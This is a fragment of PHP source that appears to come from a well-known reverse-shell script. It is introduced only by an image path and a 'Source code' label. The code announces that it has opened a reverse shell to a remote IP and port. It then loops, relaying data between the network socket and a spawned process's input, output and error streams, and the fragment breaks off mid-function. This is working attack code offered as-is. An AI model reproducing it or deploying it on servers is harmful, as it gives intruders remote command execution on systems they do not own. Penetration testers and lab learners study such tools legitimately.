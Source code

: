 ```php
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
```